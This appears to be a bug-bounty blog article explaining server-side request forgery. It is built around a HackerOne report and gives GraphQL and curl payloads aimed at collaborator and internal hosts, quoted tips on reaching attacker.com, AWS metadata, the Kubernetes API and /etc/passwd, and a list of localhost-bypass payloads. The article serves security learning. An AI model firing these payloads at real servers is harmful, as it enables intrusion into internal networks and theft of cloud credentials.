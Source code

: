 ```yaml
---
description: 'Ref: https://hackerone.com/reports/1864188'
cover: ../../.gitbook/assets/Blue Pink Gradient Fashion Banner (1).png
coverY: -31
---
```


# 🤯 Understanding SSRF Vulnerabilities and Their Impact

## &#x20;:heavy\_multiplication\_x: [<mark style="color:red;">Twitter</mark>](https://twitter.com/Cipher0ps\_tech?t=MlqumIay8I49eWwhjgrotg\&s=09) :link: [<mark style="color:red;">Linkedin</mark>](https://www.linkedin.com/company/cipherops/) :tv: [<mark style="color:red;">Telegram</mark>](https://t.me/cipherops\_tech) :tada: <mark style="color:red;">I</mark>[<mark style="color:red;">nstagram</mark>](https://instagram.com/cipherops\_tech?igshid=MzNlNGNkZWQ4Mg==)



Server-Side Request Forgery (SSRF) is a critical security vulnerability that allows attackers to send unauthorized requests from the server to other internal or external resources. In this article, we will analyze some examples of SSRF queries and curl commands to better comprehend the severity of this issue.

#### SSRF Request with GraphQL Query Parameter

```json
query {
  allTicks(symbol:"TSLA", source:"https://[COLLABORATOR_DOMAIN]/") {
    symbol
    server
    source
    ask
    time
    bid
  }
}
```

```bash
curl -v "https://xxxx.xxx.com/" -H "Content-Type: application/json" --data '{"query":"query { allTicks(symbol:\"TSLA\", source:\"https://[COLLABORATOR_DOMAIN]/\"){ symbol server source ask time bid } }"}'
```

In this example, the GraphQL query contains a vulnerable parameter `source` that accepts a URL. An attacker can manipulate this URL to make the server send a request to their controlled domain, referred to as `[COLLABORATOR_DOMAIN]`, potentially leading to data leakage or unauthorized access.

#### SSRF Request with GET Parameters inside GraphQL JSON

```json
query {
  allTicks(symbol:"TSLA", source:"https://[COLLABORATOR_DOMAIN]/?do=something&") {
    symbol
    server
    source
    ask
    time
    bid
  }
}
```

```bash
curl -v "https://xxxx.xx.com/" -H "Content-Type: application/json" --data '{"query":"query { allTicks(symbol:\"TSLA\", source:\"https://[COLLABORATOR_DOMAIN]//?do=something&\"){ symbol server source ask time bid } }"}'
```

Here, the GraphQL query includes GET parameters in the URL. An attacker can exploit this by modifying the parameters and potentially impacting the behavior of the server, leading to various security risks.

#### SSRF Request to Internal Host

```json
query {
  allTicks(symbol:"TSLA", source:"https://█████/?") {
    symbol
    server
    source
    ask
    time
    bid
  }
}
```

```bash
curl -v "https://xxxx.xxx.com/" -H "Content-Type: application/json" --data '{"query":"query { allTicks(symbol:\"TSLA\", source:\"https://https://████/?\"){ symbol server source ask time bid } }"}'
```

```markdown
# A tip onn ssrf from Twitter
#bugbountytip Found Linkerd service (look for headers such as “Via: linkerd” or “l5d-*”)? Try SSRF by overriding dtab via request header, e.g. “l5d-dtab: /svc/* => /$/inet/attacker.com/80” to reach your server or “l5d-dtab: /svc/* => /$/inet/169.254.169.254/80” for AWS metadata.

#Bugbountytip Got a SSRF? no metadata endpoints to hit? Try https://kubernetes.default.svc/metrics if you get a load crap come back jackpot you've hit the kubernetes API and this should indicate it's shit the bed time for any security team. (url can change)

SSRF are ❤️

file:///etc/passwd : Not authorized
file://\/\/etc/passwd : Work 😀

#BugBounty

SSRF payloads
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/
http://0000::1:80/
http://0000::1:25/ SMTP
http://0000::1:22/ SSH
http://0000::1:3128/ 
http://0177.0.0.1/
http://2130706433/ = http://127.0.0.1
http://3232235521/ http://192.168.0.1
localhost:+11211aaa
localhost:00011211aaaa
http://0/
http://127.1
http://127.0.1
HTTP
ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443
#kongsec

If you have a blind SSRF that can only read images (but for some reason can't read ICO files), try and find Confluence running on the internal network and request /images/icons/linkext7.gif to prove that you can access internal resources

```

{% embed url="https://x.com/chybeta/status/1176165964196376576?s=20" %}

<img src="https://2207729183-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LbWrDBBrbM1WtGeIKRO%2F-MTAEQ3wRjUmCfcVCv3d%2F-MTAErI78RbCVBhg8jGj%2Fimage.png?alt=media&#x26;token=f90e59f3-c38b-48ea-b8b3-e7f1484bff66" alt="" data-size="original">



In this instance, the GraphQL query includes a modified URL with the placeholder `█████`, suggesting an attempt to perform an SSRF request to an internal host. If successful, this could expose sensitive information or services running on the internal network.

#### Conclusion

SSRF vulnerabilities are serious threats that require immediate attention from developers and security teams. To mitigate SSRF risks, it is essential to validate and sanitize user-provided URLs and limit access to sensitive internal resources.

Remember, proactive security measures and regular vulnerability assessments are crucial in maintaining a robust and secure web application. Stay vigilant, and always prioritize cybersecurity to protect both your users and your organization.

***
